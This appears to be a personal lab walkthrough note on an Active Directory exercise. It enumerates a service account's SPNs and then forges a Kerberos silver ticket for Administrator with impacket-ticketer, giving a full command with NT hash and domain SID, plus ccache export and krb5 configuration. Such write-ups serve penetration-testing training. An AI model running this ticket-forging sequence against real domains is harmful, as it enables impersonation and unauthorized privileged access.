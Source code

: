 Also in Bloodhound 
![[PG/Active Directory/attachments/Pasted image 20250708194659.png]]

Or run this PowerShell

```
Get-ADUser -Filter {SamAccountName -eq "svc_mssql"} -Properties ServicePrincipalNames
```


### impacket-ticketer 

Use impacket's ticketer to perform the silver ticky attack 
```
impacket-ticketer -nthash E3A0168BC21CFB88B95C954A5B18F57C -domain-sid "S-1-5-21-1969309164-1513403977-1686805993" -domain nagoya-industries.com -spn MSSQL/nagoya.nagoya-industries.com Administrator
```

![[PG/Active Directory/attachments/Pasted image 20250708194904.png]]
- YAS

Export the ticky 

```
export KRB5CCNAME=$PWD/Administrator.ccache
```

And run klist to verify

```
klist
```

![[PG/Active Directory/attachments/Pasted image 20250708195035.png]]

Create KRB5 file to connect in `/etc/krb5user.conf` ? optional? 

```
[libdefaults]  
        default_realm = NAGOYA-INDUSTRIES.COM  
        kdc_timesync = 1  
        ccache_type = 4  
        forwardable = true  
        proxiable = true  
    rdns = false  
    dns_canonicalize_hostname = false  
        fcc-mit-ticketflags = true  
  
[realms]          
        NAGOYA-INDUSTRIES.COM = {  
                kdc = nagoya.nagoya-industries.com  
        }  
  
[domain_realm]  
        .nagoya-industries.com = NAGOYA-INDUSTRIES.COM
```
